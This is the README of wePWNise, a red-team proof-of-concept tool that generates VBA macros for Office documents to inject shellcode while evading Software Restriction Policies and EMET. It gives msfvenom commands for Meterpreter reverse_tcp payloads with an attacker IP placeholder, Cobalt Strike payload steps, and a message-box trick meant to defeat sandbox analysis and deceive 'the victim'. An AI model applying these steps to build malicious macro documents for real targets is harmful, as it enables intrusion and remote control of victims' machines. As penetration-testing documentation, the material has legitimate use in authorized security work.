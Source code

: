 #wePWNise

wePWNise is proof-of-concept Python script which generates VBA code that can be used in Office macros or templates. It was designed with automation and integration in mind, targeting locked down environment scenarios. The tool enumerates Software Restriction Policies (SRPs) and EMET mitigations and dynamically identifies safe binaries to inject payloads into. wePWNise integrates with existing exploitation frameworks (e.g. Metasploit, Cobalt Strike) and it also accepts any custom payload in raw format.

##Prerequisites

* Python termcolor package. To install run: pip install termcolor

##Command line arguments

To start using wePWNise, first take a look at the options it supports:

```
usage: wepwnise.py [-h] -i86 <x86_shellcode> -i64 <x64_shellcode> [--inject64]   
                   [--out <output_file>] [--msgbox] [--msg <window_message>]

optional arguments:   
  -h, --help            show this help message and exit   
  -i86 <x86_shellcode>  Input x86 raw shellcode   
  -i64 <x64_shellcode>  Input x64 raw shellcode   
  --inject64            Inject into 64 Bit. Set to False when delivering x86   
                        payloads only. Default is True   
  --out <output_file>   File to output the VBA macro to   
  --msgbox              Present messagebox to prevent automated analysis.   
                        Default is True.   
  --msg <window_message>   
                        Custom message to present the victim if --msgbox is   
                        set to True
```

wePWNise requires both 32 and 64 bit raw payloads in order to be able to deliver the appropriate type when it lands on an unknown target. However, if only an x86 architecture is targeted, a dummy 64 bit payload must be provided to replace the missing code. 

In order to defeat certain automated analysis configurations, a message box opens upon execution of the code. The text of the message box can be altered by defining its value in the --msg parameter. To disable this functionality set the --msgbox parameter to False.

Due to performance conditions that may be introduced as a result of long SRPs/EMET policies, wePWNise reads two configuration files (binary-paths.txt and directory-paths.txt) that contain a list of executables and directories which are less likely to be monitored to be checked first. By editing the contents of those files the user can define their own choices instead. If the files are empty, wePWNise will directly start reading the SPRs/EMET policies as these would be defined within the Registry and make its injection choice purely based on the retrieved information.


##Usage examples

The following sections describe some basic usage examples of wePWNise.

###Metasploit payloads

First the payloads for both x86 and x64 architectures in raw format and ensure that the Metasploit listeners are configured appropriately.

`$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f raw -o /payloads/msf86.raw`   
`$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f raw -a x86_64 -o /payloads/msf64.raw`

Then point wePWNise to the generated payloads and direct the output to msf_wepwn.txt

`$ wepwnise.py -i86 /payloads/msf86.raw  -i64 /payloads/msf64.raw --out /payloads/msf_wepwn.txt`

###Cobalt Strike payloads

To generate a raw payload in Cobalt Strike, navigate to the following menu and from the Output dropdown select the Raw format. Repeat the process and enable the x64 checkbox to produce a 64-bit payload.

Attacks > Packages > Payload Generator

Enter the generated payloads into wePWNise to generate the VBA code.

`$ wepwnise.py -i86 /payloads/cs86.raw  -i64 /payloads/cs64.raw  --msgbox False --out /payloads/cs_wepwn.txt`


###Custom payloads

In certain cases it may be the case that only an x86 payload be available. As wePWNise expects both a 32-bit and 64-bit payloads, in order to disable 64-bit injection create a dummy 64-bit file and set the --inject64 parameter to False.

```
$ echo "+" > /payloads/dummy64.raw
$ wepwnise.py -i86 /payloads/custom.raw  -i64 /payloads/dummy64.raw --inject64 False --out /payloads/wepwn86.txt
```

Similarly, to generate 64-bit payloads only, create a dummy x86 file and supply it in wePWNise's -i86 command line paramenter.

##License

wePWNise is released under a 3-clause BSD License and maintained by [MWR InfoSecurity](https://mwrinfosecurity.com)